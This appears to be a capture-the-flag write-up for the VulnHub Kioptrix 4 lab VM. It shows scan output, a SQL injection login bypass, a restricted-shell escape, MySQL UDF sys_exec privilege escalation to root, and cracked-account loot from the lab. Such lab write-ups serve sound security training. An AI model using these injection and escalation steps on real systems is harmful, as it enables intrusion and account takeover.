


# [[VulnHub] Kioptrix: Level 1.3 (#4)](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/)

**Date**: 08/Oct/2019  
**Categories**: [oscp](https://github.com/7h3rAm/writeups/search?q=oscp&unscoped_q=oscp), [vulnhub](https://github.com/7h3rAm/writeups/search?q=vulnhub&unscoped_q=vulnhub), [linux](https://github.com/7h3rAm/writeups/search?q=linux&unscoped_q=linux)  
**Tags**: [`exploit_sqli`](https://github.com/7h3rAm/writeups#exploit_sqli), [`exploit_credsreuse`](https://github.com/7h3rAm/writeups#exploit_credsreuse), [`privesc_shell_escape`](https://github.com/7h3rAm/writeups#privesc_shell_escape), [`privesc_mysql_root`](https://github.com/7h3rAm/writeups#privesc_mysql_root), [`privesc_mysql_udf`](https://github.com/7h3rAm/writeups#privesc_mysql_udf)  

## Overview
This is a writeup for VulnHub VM [`Kioptrix: Level 1.3 (#4)`](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:





\newpage
## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
``` {.python .numberLines}
# Nmap 7.70 scan initiated Tue Oct  8 15:47:02 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.kioptrix4/results/192.168.92.131/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.kioptrix4/results/192.168.92.131/scans/xml/_quick_tcp_nmap.xml 192.168.92.131
Nmap scan report for 192.168.92.131
Host is up, received arp-response (0.0012s latency).
Scanned at 2019-10-08 15:47:03 PDT for 35s
Not shown: 566 closed ports, 430 filtered ports
Reason: 566 resets and 430 no-responses
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey:
|   1024 9b:ad:4f:f2:1e:c5:f2:39:14:b9:d3:a0:0b:e8:41:71 (DSA)
| ssh-dss AAAAB3NzaC1kc3MAAACBAJQxDWMK4xxdEEdMA0YQLblzXV5xx6slDUANQmyouzmobMxTcImV1OfY9vB2LUjJwSbtuPn/Ef7LCik29SLab6FD59QsJKz3tOfX1UZJ9FeoxPhoVsfk+LDM4FbQxo0pPYhlQadVHAicjUnONl5WaaUEYuelAoU36v2wOKKDe+kRAAAAFQDAmqYNY1Ou7o5qEfZx0e9+XNUJ2QAAAIAt6puNENxfFnl74pmuKgeQaZQCsPnZlSyTODcP961mwFvTMHWD4pQsg0j6GlPUZrXUCmeTcNqbUQQHei6l8U1zMO4xFYxVz2kkGhbQAa/FGd1r3TqKXu+jQxTmp7xvNBVHoT3rKPqcd12qtweTjlYKlcHgW5XL3mR1Nw91JrhMlAAAAIAWHQLIOjwyAFvUhjGqEVK1Y0QoCoNLGEFd+wcrMLjpZEz7/Ay9IhyuBuRbeR/TxjitcUX6CC58cF5KoyhyQytFH17ZMpegb9x29mQiAg4wK1MGOi9D8OU1cW/COd/E8LvrNLxMFllatLVscw/WXXTi8fFmOEzkGsaRKC6NiQhDlg==
|   2048 85:40:c6:d5:41:26:05:34:ad:f8:6e:f2:a7:6b:4f:0e (RSA)
|_ssh-rsa AAAAB3NzaC1yc2EAAAABIwAAAQEApA/UX2iq4JYXncTEDfBoyJWguuDkWDvyw4HlLyc1UBT3Pn2wnYLYa0MjwkBtPilmf5X1zK1z3su7oBEcSEt6o7RzDEUbC1O6nRvY4oSKwBD0qLaIHM1V5CZ+YDtLneY6IriJjHJ0DgNyXalPbQ36VZgu20o9dH8ItDkjlZTxRHPE6RnPiD1aZSLo452LNU3N+/2M/ny7QMvIyPNkcojeZQWS7RRSDa2lEUw1X1ECL6zCMiWC0lhciZf5ieum9MnATTF3dgk4BnCq6dfdEvae0avSypMcs6no2CJ2j9PPoAQ1VWj/WlAZzEbfna9YQ2cx8sW/W/9GfKA5SuLFt1u0iQ==
80/tcp  open  http        syn-ack ttl 64 Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 00:0C:29:9E:D6:27 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -5h00m23s, deviation: 2h49m43s, median: -7h00m24s
| nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| Names:
|   KIOPTRIX4<00>        Flags: <unique><active>
|   KIOPTRIX4<03>        Flags: <unique><active>
|   KIOPTRIX4<20>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
| Statistics:
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 10904/tcp): CLEAN (Timeout)
|   Check 2 (port 63363/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 50750/udp): CLEAN (Failed to receive data)
|   Check 4 (port 25142/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name:
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2019-10-08T11:47:00-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-security-mode: Couldn't establish a SMBv2 connection.
|_smb2-time: Protocol negotiation failed (SMB2)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct  8 15:47:38 2019 -- 1 IP address (1 host up) scanned in 36.59 seconds

```

2\. From the SMB scan, we find that there are 3 users (other than `root`) on the target system:  
``` {.python .numberLines}
===============================
|    Users on 192.168.92.131  |
===============================
index: 0x1 RID: 0x1f5 acb: 0x00000010 Account: nobody Name: nobody  Desc: (null)
index: 0x2 RID: 0xbbc acb: 0x00000010 Account: robert Name: ,,, Desc: (null)
index: 0x3 RID: 0x3e8 acb: 0x00000010 Account: root Name: root  Desc: (null)
index: 0x4 RID: 0xbba acb: 0x00000010 Account: john Name: ,,, Desc: (null)
index: 0x5 RID: 0xbb8 acb: 0x00000010 Account: loneferret Name: loneferret,,, Desc: (null)

```


### Findings
#### Open Ports
``` {.python .numberLines}
22/tcp   |  ssh          |  OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp   |  http         |  Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
137/udp  |  netbios-ns   |  Microsoft Windows netbios-ns (workgroup: WORKGROUP)
139/tcp  |  netbios-ssn  |  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  |  netbios-ssn  |  Samba smbd 3.0.28a (workgroup: WORKGROUP)
```
#### Users
``` {.python .numberLines}
ssh: root, robert, john, loneferret
```

\newpage
## Phase #2: Exploitation
1\. We find a login page at `http://192.168.92.131:80/index.php` and successfully bypass it via a sqli. Once logged in, the webapp shows the unhashed/cleartext password for user `john`. We repeat the process to obtain password for user `robert` as well (`loneferret` is not registered on this web application):  
``` {.python .numberLines}
name: john
password: ' or 1=1 -- -

name: robert
password: ' or 1=1 -- -

```

  

  

  

2\. We successfully ssh as user `john` since this user has reused their web application credentials:  
``` {.python .numberLines}
ssh john@192.168.92.131

```

  

3\. We find ourselves in a restricted [lshell](https://github.com/ghantoos/lshell) that severly limits usability. We escape this restricted shell by running the `echo` command with `os.system` function:  
``` {.python .numberLines}
echo os.system('/bin/bash')

```

  


## Phase #2.5: Post Exploitation
``` {.python .numberLines}
john@Kioptrix4> id
uid=1001(john) gid=1001(john) groups=1001(john)
john@Kioptrix4>  
john@Kioptrix4> uname
Linux Kioptrix4 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
john@Kioptrix4>  
john@Kioptrix4> ifconfig
eth1  Link encap:Ethernet  HWaddr 00:0c:29:9e:d6:27
      inet addr:192.168.92.131  Bcast:192.168.92.255  Mask:255.255.255.0
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:934395 errors:16 dropped:67 overruns:0 frame:0
      TX packets:784540 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:122108860 (116.4 MB)  TX bytes:172750491 (164.7 MB)
      Interrupt:17 Base address:0x2000
john@Kioptrix4>  
john@Kioptrix4> users
root
loneferret
john
robert
```

\newpage
## Phase #3: Privilege Escalation
1\. We explore the web directory and find `mysql` credentials for user `root`:  

  

2\. We explore running processes and find that `mysql` is executing with elevated privileges (pid: 4638). We search for the required `mysql` shared object file and find it at `/usr/lib/lib_mysqludf_sys.so`. This means we can run custom commands from within `mysql` shell as user `root`:  

  

3\. We connect to `mysql` as user `root` and execute a command to add user `john` to the `admin` group:  
``` {.python .numberLines}
mysql -h localhost -u root -p
  select sys_exec("usermod -a -G admin john");
  exit

```

  

4\. Now we can change to user `root` and complete the challenge:  
``` {.python .numberLines}
sudo su
cat /root/congrats.txt

```

  

  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$1$5GMEyqwV$x0b1nMsYFXvczN0yI0kBB.:15375:............
loneferret:$1$/x6RLO82$43aCgYCrK7p2KFwgYw9iU1:15375.............
john:$1$H.GRhlY6$sKlytDrwFEhu5dULXItWw/:15374:............
robert:$1$rQRWeUha$ftBrgVvcHYfFFFk6Ut6cM1:15374:............
```
### Credentials
``` {.python .numberLines}
liggoat: john/MyNameIs...., robert/ADGAdsafdfwt4ga......
ssh: john/MyNameIs...., robert/ADGAdsafdfwt4ga......
```

## References
[+] <https://www.vulnhub.com/entry/kioptrix-level-13-4,25/>  
[+] <https://www.abatchy.com/2016/12/kioptrix-level-13-4-walkthrough-vulnhub.html>  
[+] <http://www.gcura.tech/kioptrix-level-1-3-4/>  
[+] <https://web.archive.org/web/20190822075547/https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/>  
[+] <https://bernardodamele.blogspot.com/2009/01/command-execution-with-mysql-udf.html>  
